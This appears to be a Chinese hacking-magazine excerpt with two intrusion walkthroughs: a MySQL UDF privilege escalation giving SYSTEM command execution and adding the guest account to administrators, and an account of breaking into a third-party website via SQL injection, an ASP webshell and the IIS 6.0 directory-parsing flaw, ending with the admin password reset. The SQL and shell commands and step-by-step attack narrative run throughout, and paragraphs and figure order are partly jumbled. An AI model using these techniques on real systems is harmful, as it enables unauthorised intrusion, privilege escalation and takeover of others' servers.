

图14

第一步是建立一个表

```
sql
CREATE TABLE Temp_Tab (udf BLOB);
```

可以看出有回显（如图15）。



图15

第二步是把udf.dll的数据写进表里

```
sql
INSERT INTO Temp_Tab VALUES(CONVERT(udf的代码,CHAR));
```

这一步是比较重要的，第二步的代码我提供给大家的。可以看到回显的结果（如图16）。



图16

第三步就是导出udf了，注意要导到mysql安装目录，lib目录下的plugin目录里。

```
sql
SELECT udf FROM Temp_Tab INTO DUMPFILE 'X:\\MySQL Server 5.1\\lib\\plugin\\udf.dll';
```

这个具体的要看管理员把mysql程序安装在什么地方了，回显结果（如图17）。



图17

第四步注册函数，如果有杀软的话可能注册失败

```
sql
CREATE FUNCTION cmdshell RETURNS string SONAME 'udf.dll';
```

第五步就可以运行cmd命令了

```
sql
SELECT cmdshell('cmd命令这里');
```

使用whoami来判断一下权限，直接就是system最高权限了（如图18）。



图18

提权结束后可以运行命令删除这些内容。

```
sql
DROP TABLE Temp_Tab;
DROP FUNCTION cmdshell;
```

现在再来运行一下建立账户的命令，发现没有命令执行成功的回显（如图19）。



图19

> net localgroup administrators guest /add 添加管理员



图22

先尝试下复杂的密码，但是这时候出现一个奇怪的现象。出现了一个提示：输入的密码超过了14个字符（如图20），无论运行什么都是这个提示。

终于提权成功，最后我们就可以远程桌面登陆上去了（如图23）。



图20



图23

这时候显然是由于cmd不是反弹本地执行的原因，输入Y也没用。一般的就只能等管理员重启了，但是我想到一个方法。我使用Serv-U提权来结束全部的cmd进程（如图21），这样就可以继续运行cmd命令了。使用的cmd命令为：**taskkill /f /t /im cmd.exe**。

肯定有人奇怪既然能Serv-U提权，为什么还很麻烦的用mysql来提权。最简单的原因是这种方法提权比较麻烦需要复制代码，而且Serv-U提权没有cmd的回显。最重要的原因是有时候使用Serv-U提权提权即使显示成功其实还是失败的，用mysql提权可靠性更高。在遇到我这样无法建立账户的尴尬情况（密码组策略限制加14位密码提示），也可以直接运行一个远控上去开控制服务器，不过在有杀软的情况下比较冒险。或者利用copy命令替换掉粘滞键，当然必须是管理员没有禁用粘滞键。



图21

这样的话就只有启用guest，然后再给它加个复杂的密码，再把它加入到管理员组中去（如图22）。

```
cmd命令：

net user guest /active:yes
net user guest my1234567890!@#$%^&*()（注意不要加/add）
```

## 四、小结

这次的提权总的来说还是比较顺利的，最重要的原因是前期信息的搜集能让你有效的去提权。在无法解析一下提权脚本的情况下，利用webshell本身的一些平时不用的功能也可以达到提权的目的，这就是我文章的目的。

（文章中所涉及到的两用shell等相关软件已收录在本期光盘中）

## HS6.0设计缺陷助我走上入侵成功之路

某日想入侵一个网站，尝试以后发现该网站设置了所有参数只能是数字，所以无奈选择了旁注。用啊D跑了一下，发现这台服务器上有很多网站，随便逛了逛就找到一个搜索型的注入漏洞，修改一下搜索网页的页面提交参数后放NBSI跑了一下，发现是MSSQL的数据库，“PUBLIC”权限，再用啊D跑了一下是“DB_OWNER”权限（如图1）。



图1

既然啊D都说了是“DB_OWNER”权限，那肯定用了。现在思路很明确了，如果数据库与服务器未分离，能列目录的话直接列目录，然后使用差异备份直接上传一句话木马，最后再传个大马就完事了。

用啊D列了一下服务器上的目录，发现可以列出来，在服务器上翻了一会，对照着啊D跑出来的旁注的网址，很快就可以找到网站的目录了，接着就用“getwebshell”工具直接生成了一个ASP的一句话木马（如图2）。



图2

本以为事情会很顺利，很快就可以看到胜利的曙光，但是接下来的事情却让我花费了很多时间，我用一句话木马客户端是可以连接我导出的ASP木马，但是在我传木马的过程中无论是上传ASP大马，还是写入ASP木马，还是复制ASP文件全部提示没有权限，连新建目录都没有权限（如图3）。

看来是服务器做了限制，所以没办法直接上传ASP木马了，我本来想直接用getwebshell工具备份其他如ASPX木马的，因为我看到这个服务器上有几个站是用ASPX的，但是最后也是无功而返。



图3

入侵就这样被阻断了，这条路不行那我就只能从其他几个网站入手了，后来试了其他几个站也是如此设置的，没办法，我只好用啊D慢慢翻服务器上的文件，还真发现了一些可以利用的东西（如图4）。



图4

我直接用工具上传ASP木马，提示上传成功，但是看结果，扩展名不是ASP的，我访问文件，文件也是存在的。看到这，我想起来原来服务器上有些目录还是可以写入目录和文件的，就这个图片上传的目录就可以。但是我测试了一下，文件是可以上传，但是ASP、CER、ASA、ASPX等扩展名的文件上传依然提示没有权限，而且目录却是的确可以新建的，其他图片上传也是可以的，这个设置的确是很让人侵者头痛。

我又重新理了一下思路，服务器应该是Windows2003的，我有一句话的ASP木马，可以新建目录，可以新建除了ASP等扩展名外的文件，那不知道可不可以利用IIS6.0那个经典的设计缺陷漏洞呢？如果可以的话，那我直接新建一个ASP的目录，然后把GIF等扩展名的ASP木马直接放入不就可以成功运行木马了。我新建了一个b.asp的目录（如图5）。

改为URL=Request.ServerVariables("PATH_INFO")就可以了，“PATH_INFO”可以直接呈现虚拟路径，可以顺利解析GIF木马。

把修改后的ASP木马，按原来方法再提交一次，顺利进入webshell，进入后发现除C盘外的所有盘都不能访问，也不支持wscript.shell，我试了一下用啊D列出的目录直接跳转到我要入侵的网站下面，显示跳转成功，但是不能对里面的文件进行操作，这个也在意料之中，毕竟人家也不是那么菜的。

结果显示目录新建成功了，真是幸运。我又把先前上传的GIF格式的ASP木马直接复制到新建的目录里面，也显示复制成功了，我在浏览器里输入网址，终于出现了久违的登陆页面（如图6）。



其实现在已经能够浏览目标网站的文件了，应该离成功也不远了，我按照平常的思维，直接下载了目标站的数据库连接文件，找到了MSSQL的数据库连接信息，直接用webshell连接目标网站的数据库，先保存管理员原来的MD5密码，用来恢复之用，然后用updata命令更改网站管理员的密码为“admin”（如图7）。



接下来就可以直接用修改后的密码登录后台了（如图8）。

